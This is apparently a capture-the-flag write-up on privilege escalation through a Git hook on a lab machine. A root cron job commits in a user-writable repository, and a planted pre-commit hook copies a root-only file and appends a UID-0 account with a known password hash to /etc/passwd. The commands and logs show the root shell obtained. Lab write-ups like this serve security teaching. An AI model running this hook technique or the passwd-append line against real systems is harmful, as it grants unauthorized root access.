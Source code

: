 ## Git hook privilege escalation
- [Git - Git Hooks](https://git-scm.com/book/it/v2/Customizing-Git-Git-Hooks)
- [Git hooks example - GitKraken Client Documentation](https://support.gitkraken.com/working-with-repositories/githooksexample/)

>[!tip]
>Git hooks are **special scripts** **executed before** the actual **git action**, like git commit or git push. Because root executes some git actions on user writable git directory, it is possible to inject git hooks to execute command with high privileges.

Custom git hook:

```bash
dev01@opensource:~$ cat /home/dev01/.git/hooks/pre-commit
#!/bin/sh
cp /root/root.txt /dev/shm/root.txt
chmod 777 /dev/shm/root.txt
exit 1
```

PoC:

```bash
dev01@opensource:~$ ls -al /dev/shm/root.txt
-rwxrwxrwx 1 root root 33 May 23 15:51 /dev/shm/root.txt
dev01@opensource:~$ cat /dev/shm/root.txt
2d33ed1fbb89e74c52a98a8ca3ec9147
```

Privilege escalation PoC:

```bash
dev01@opensource:~$ nano .git/hooks/pre-commit
dev01@opensource:~$ cat .git/hooks/pre-commit
#!/bin/bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
exit 1
dev01@opensource:~$ chmod +x .git/hooks/pre-commit
```

Created a file in order to force **/usr/local/bin/git-sync** to execute git:

```bash
dev01@opensource:~$ echo '' > /home/dev01/void
```

Escalated to root:

```bash
...
2022/05/23 16:47:01 CMD: UID=0    PID=26733  | /bin/bash /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26732  | /bin/sh -c /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26731  | /usr/sbin/CRON -f
2022/05/23 16:47:01 CMD: UID=0    PID=26736  | git add .
2022/05/23 16:47:01 CMD: UID=0    PID=26737  | git commit -m Backup for 2022-05-23
2022/05/23 16:47:01 CMD: UID=0    PID=26739  |
2022/05/23 16:47:01 CMD: UID=0    PID=26738  | /bin/bash .git/hooks/pre-commit
2022/05/23 16:47:01 CMD: UID=0    PID=26740  | /bin/bash /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26741  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
...

dev01@opensource:~$ cat /etc/passwd | grep root2
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash

dev01@opensource:~$ su root2
Password:
root@opensource:/home/dev01# id; hostname; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
```